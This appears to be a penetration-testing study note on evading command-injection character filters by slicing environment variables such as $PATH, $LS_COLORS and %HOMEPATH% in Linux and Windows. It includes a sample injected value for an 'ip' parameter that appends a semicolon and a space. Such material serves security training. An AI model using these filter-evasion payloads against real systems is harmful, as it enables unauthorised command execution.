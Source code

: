 


### Using environmental variables to substitute filtered characters in Linux

#### Slashes and back-slashes
A very commonly blacklisted character is the slash (`/`) or backslash (`\`) character, as it is necessary to specify directories in Linux or Windows.  we can replace slashes (`or any other character`) is through `Linux Environment Variables` . 

The `$PATH` environment variable in Linux, for example, contains the `/` character in a fixed position:

```bash
 echo ${PATH:0:1}
```

We can do the same with the `$HOME` or `$PWD` environment variables as well.

#### Semicolon

Following the same reasoning, this command gives you a semi-colon:

```bash
echo ${LS_COLORS:10:1}
```

#### Other characters

```bash
# The `printenv` command prints all environment variables in Linux, so you can look which ones may contain useful characters, and then try to reduce the string to that character only.
printenv
```

Example:

```bash
# A given website with a vulnerable to command injection input for the ip parameter. We will add a semicolon and a space to our payload
ip=127.0.0.1${LS_COLORS:10:1}${IFS}

```

### Using environmental variables to substitute filtered characters in Windows

In a cmd session:

```cmd-session
# To produce a slash in `Windows Command Line (CMD)`, we can `echo` a Windows variable (`%HOMEPATH%` -> `\Users\htb-student`), and then specify a starting position (`~6` -> `\htb-student`), and finally specifying a negative end position, which in this case is the length of the username `htb-student` (`-11` -> `\`)
echo %HOMEPATH:~6,-11%

```
